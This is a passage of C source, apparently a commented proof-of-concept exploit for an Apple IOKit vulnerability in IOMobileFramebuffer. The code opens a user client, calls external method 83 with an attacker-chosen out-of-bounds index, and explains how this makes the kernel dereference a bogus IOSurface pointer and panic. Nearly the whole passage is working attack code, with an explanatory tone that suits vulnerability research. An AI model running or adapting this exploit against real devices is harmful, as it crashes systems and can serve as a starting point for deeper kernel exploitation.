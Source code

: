 ```c
  // 2) Open a connection (user client) to the service.
  //    The user client is what exposes external methods to userland.
  //    'type' selects which user client class/variant to instantiate.
  ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
  if (ret != KERN_SUCCESS) {
    printf("failed to open userclient: %s\n", mach_error_string(ret));
    return;
  }

  printf("client: 0x%x\n", shared_user_client_conn);

  printf("call externalMethod\n");

  // 3) Prepare input scalars for the external method call.
  //    The vulnerable path uses a 32-bit scalar as an INDEX into an internal
  //    array of pointers WITHOUT bounds checking (OOB read / type confusion).
  //    We set it to a large value to force the out-of-bounds access.
  uint64_t scalars[4] = { 0x0 };
  scalars[0] = 0x41414141; // **Attacker-controlled index** → OOB pointer lookup

  // 4) Prepare output buffers (the method returns a scalar, e.g. a surface ID).
  uint64_t output_scalars[4] = { 0 };
  uint32_t output_scalars_size = 1;

  printf("call s_default_fb_surface\n");

  // 5) Invoke external method #83.
  //    On vulnerable builds, this path ends up calling:
  //      IOMobileFramebufferUserClient::s_displayed_fb_surface(...)
  //      → IOMobileFramebufferLegacy::get_displayed_surface(...)
  //      which uses our index to read a pointer and then passes it as IOSurface*.
  //    If the pointer is bogus, IOSurface code will dereference it and the kernel
  //    will panic (DoS).
  ret = IOConnectCallMethod(
          shared_user_client_conn,
          83,                 // **Selector 83**: vulnerable external method
          scalars, 1,         // input scalars (count = 1; the OOB index)
          NULL, 0,            // no input struct
          output_scalars, &output_scalars_size,  // optional outputs
          NULL, NULL);        // no output struct

  // 6) Check the call result. On many vulnerable targets, you'll see either
  //    KERN_SUCCESS right before a panic (because the deref happens deeper),
  //    or an error if the call path rejects the request (e.g., entitlement/type).
  if (ret != KERN_SUCCESS) {
    printf("failed to call external method: 0x%x --> %s\n",
           ret, mach_error_string(ret));
    return;
  }

  printf("external method returned KERN_SUCCESS\n");

  // 7) Clean up the user client connection handle.
  IOServiceClose(shared_user_client_conn);
  printf("success!\n");
}
```

